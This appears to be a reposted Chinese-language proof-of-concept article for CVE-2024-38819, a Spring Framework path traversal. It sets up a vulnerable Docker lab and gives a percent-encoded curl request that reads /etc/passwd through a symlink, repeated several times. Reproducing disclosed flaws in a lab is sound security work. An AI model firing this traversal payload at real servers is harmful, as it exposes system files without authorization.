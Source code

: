 #  【Poc】-Spring Framework路径遍历漏洞(CVE-2024-38819)   
原创 宬室司阍  埋藏酱油瓶   2024-12-16 05:38  
  
## 【🔔】互联网资料/工具，安全性未知，需要自行研判安全性。  
# CVE-2024-38819: PoC  
> Poc:  
> curl http://localhost:8080/static/link/%2e%2e/etc/passwd  
  
# Poc环境验证  
### 1. 构建镜像  
> doker 镜像（Spring Boot 3.3.4，基于 Spring Framework 6.1.13）  
  
```
cd vuln
docker build -t cve-2024-38819-poc .
```  
### 2. 运行服务  
> 运行容器并将端口 8080 暴露给主机  
  
```
docker run -d -p 8080:8080 --name cve-2024-38819-poc cve-2024-38819-poc
```  
### 3. 运行Poc  
> 运行以下命令执行PoC并确认漏洞  
  
```
curl http://localhost:8080/static/link/%2e%2e/etc/passwd
```  
  
如果攻击成功，就会显示 **/etc/passwd**  
 文件的内容。  
## Explanation  
> 1. 使用以下代码创建 PathTraversalDemoApplication.java 以使用 RouterFunction 和 FileSystemResource 设置静态文件路由：  
  
```
public RouterFunction<ServerResponse> staticResourceRouter() {
    return RouterFunctions.resources("/static/**", new FileSystemResource("/app/static/"));
}
```  
> 1. 将以下命令添加到 Dockerfile 以创建符号链接：  
  
```
RUN ln -s /static /app/static/link
```  
> 1. 创建一个有效负载，利用百分比编码通过符号链接遍历目录。  
  
```
Path: `/static/link/%2e%2e/etc/passwd`
```  
> 1. 使用以下 curl 命令执行PoC并验证攻击是否成功：  
  
```
curl http://localhost:8080/static/link/%2e%2e/etc/passwd
```  
  
如果攻击成功，就会显示 **/etc/passwd**  
 文件的内容。  
## 项目地址  
1. 1.   
【仓库】https://github.com/masa42/CVE-2024-38819-POC  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/aOiar7mEUNlqIeYPL63ftuHYOg5LA6Izamo9VLniaX7pBCa2ATgAoIhOm8DuWwGa17csZQkM3fvZ9vjLCZnI37xA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
